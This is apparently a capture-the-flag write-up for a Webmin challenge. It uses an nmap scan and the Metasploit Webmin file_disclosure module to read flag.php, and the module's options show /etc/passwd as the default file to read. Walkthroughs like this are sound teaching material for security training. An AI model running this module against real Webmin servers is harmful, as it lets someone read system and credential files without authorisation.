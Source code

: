 Webmin - Exploit 2
========================
## Challenge:
```
**Description:** This challenge had us connecting to a server where the following information was shown. A flag.php file and a webmin folder containing a config file.
**Goal:** Find the flag for 2000 Points.
```

## Solution:

Solving this problem was pretty fun. Though the taunt of having flag.php right in front of me was painful. First off I began by looking through the provided files. It was no surprise that flag.php wasn't going to contain the viewable flag. So, onto the next file, webmin. This folder contained a basic webmin config file that provided no real useful information either. So what do. I know that there is a flag.php file somewhere on the server that most likely contains the flag, and that the server is running webmin.

Armed only with that information I figured something else had to be on the server. Bring in good old nmap.
```
nmap -Pn 54.221.X.X

Port      State Service
22/tcp    open  ssh
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt
```

Wooh! Whats that!? snet-sensor-mgmt running on port 10000? Interesting. After giving that a go I found myself at a webmin login page. I started broswing the googles for any default accounts or passwords but I soon found there were none. Better yet the server implemented a timeout mechanism to stop brute forcing. Huh, what now?

Well. There _has_ to be another way. Are there any exploits for webmin?? Ah lookie [here](http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure), this looks interesting. Now given our knowledge of flag.php, our best bet is that it resides in /var/www/. So lets fire it up.
```
msf auxiliary(file_disclosure) > use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > show options

Module options (auxiliary/admin/webmin/file_disclosure):

  Name     Current Setting    Required  Description
  ----     ---------------    --------  -----------
  DIR      /unauthenticated   yes       Webmin directory path
  Proxies                     no        Use a proxy chain
  RHOST    54.221.*.*         yes       The target address
  RPATH    /etc/passwd        yes       The file to download
  RPORT    10000              yes       The target port
  VHOST                       no        HTTP server virtual host

msf auxiliary(file_disclosure) > set RPATH /var/www/flag.php
msf auxiliary(file_disclosure) > exploit
```

Boom! We have a flag!

**NCL-OSSL-1337**
